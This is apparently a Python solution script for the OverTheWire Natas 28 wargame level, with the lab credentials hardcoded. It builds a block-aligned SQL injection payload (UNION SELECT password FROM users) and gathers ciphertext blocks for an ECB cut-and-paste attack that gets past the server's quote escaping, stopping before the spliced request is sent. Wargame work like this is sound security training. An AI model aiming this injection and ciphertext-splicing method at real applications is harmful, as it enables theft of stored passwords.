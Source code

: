 ```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import re
import base64
import math
from urllib.parse import urlparse, parse_qs, quote

username = 'natas28'
password = '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj'
base_url = f'http://{username}.natas.labs.overthewire.org/'

session = requests.Session()
session.auth = (username, password)

block_size = 16

# payload that pushes the escaped quote into the next block on the server
injection = 'a' * 9 + "' UNION SELECT password FROM users; #"

print("=== Step 1: Parameters ===")
print("Username:", username)
print("Target URL:", base_url)
print("Block size (assumed):", block_size)
print("Injection (plaintext):", injection)
print()

# how many blocks the injected payload occupies (server prepends 10 chars)
payload_len = max(0, len(injection) - 10)
blocks = math.ceil(payload_len / block_size)
print("=== Step 2: Payload length & blocks ===")
print("Payload length (len(injection) - 10):", payload_len)
print("Blocks needed for payload:", blocks)
print()

# send the injection to get its ciphertext as returned in the redirect URL
print("=== Step 3: POST injection to obtain ciphertext for injection ===")
r = session.post(base_url, data={"query": injection})
qs = parse_qs(urlparse(r.url).query)
raw_inject_b64 = qs.get('query', [None])[0]
print("Returned redirect URL:", r.url)
print("Returned query param (base64 of ciphertext):", raw_inject_b64)
raw_inject = base64.b64decode(raw_inject_b64)
print("Decoded injection ciphertext length (bytes):", len(raw_inject))
print("Decoded injection ciphertext (hex, first 64 bytes):", raw_inject.hex()[:256])
print()

# send a "good" query (10 a's) to obtain a dummy/good base we can reuse
print("=== Step 4: POST 'a'*10 to obtain good ciphertext blocks ===")
r2 = session.post(base_url, data={"query": 'a' * 10})
qs2 = parse_qs(urlparse(r2.url).query)
good_b64 = qs2.get('query', [None])[0]
print("Returned redirect URL:", r2.url)
print("Returned good query param (base64):", good_b64)
good_base = base64.b64decode(good_b64)
print("Decoded good_base length (bytes):", len(good_base))
print("Decoded good_base (hex, first 64 bytes):", good_base.hex()[:256])
print()

# header = first 3 blocks (keeps server's header/escaping), trailer = rest after block 3
header = good_base[:block_size * 3]
trailer = good_base[block_size * 3:]
```